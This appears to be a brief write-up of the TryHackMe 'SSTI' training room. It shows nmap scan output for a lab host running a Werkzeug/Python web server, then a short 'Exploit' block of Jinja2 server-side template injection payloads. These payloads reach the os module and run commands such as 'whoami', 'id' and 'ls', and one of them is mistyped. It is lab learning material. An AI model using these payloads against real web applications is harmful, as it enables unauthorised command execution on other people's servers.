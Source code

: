 Writeup for room [SSTI](https://tryhackme.com/r/room/learnssti)

## Recon
```
nmap -A -Pn $ip
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 eb:36:ba:cc:38:7c:a3:72:74:0b:d0:ff:d6:22:c3:de (RSA)
|   256 ac:27:df:7b:bd:bd:db:27:72:8c:4d:3e:fe:37:ac:7c (ECDSA)
|_  256 bd:87:c7:fa:c7:0f:a4:fe:a6:0e:ad:58:ee:0e:31:10 (ED25519)
5000/tcp open  http    Werkzeug httpd 1.0.1 (Python 3.6.9)
|_http-title: 404 Not Found
|_http-server-header: Werkzeug/1.0.1 Python/3.6.9
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
![image](https://github.com/user-attachments/assets/5f5d5e3b-849c-4ee7-bf88-e3049b33659d)

Exploit
```
{{ ''.__class__ }}
{ ''.__class__ }}
{% import os %}{{ os.system("whoami") }}
{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('id').read() }}
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```
